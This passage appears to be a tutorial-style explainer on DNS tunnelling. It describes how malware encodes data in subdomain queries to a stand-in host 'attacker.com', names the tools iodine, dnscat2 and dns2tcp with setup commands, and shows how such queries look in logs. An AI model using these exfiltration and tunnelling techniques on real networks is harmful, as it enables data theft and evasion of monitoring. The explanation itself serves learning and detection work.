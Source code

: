 > "Shirt-Blue-Pants-Red" = "Escape now"

They’re sending **hidden messages disguised as normal talk**.

----------

### 🔧 How It Works

1.  Malware gets installed on a victim’s machine.
    
2.  It sends encoded data inside DNS queries like:
    
    ```
    YmFzZTY0LWVuY29kZWQ=.attacker.com
    
    ```
    
3.  The attacker owns `attacker.com` and its DNS server.
    
4.  That DNS server **decodes the data**, sends commands back inside fake DNS answers.
    

----------

### 🛠 Tools

-   `iodine`
    
-   `dnscat2`
    
-   `dns2tcp`
    

Example setup:

```bash
iodined -f 10.0.0.1 tunnel.yourdomain.com

```

On client side:

```bash
iodine tunnel.yourdomain.com

```

----------

### 📤 What It Looks Like (Suspicious DNS Requests)

```
Base64Chunk1234.attacker.com
Base64Chunk5678.attacker.com

```

🔍 Seen in logs as lots of **weird, long subdomains**

----------
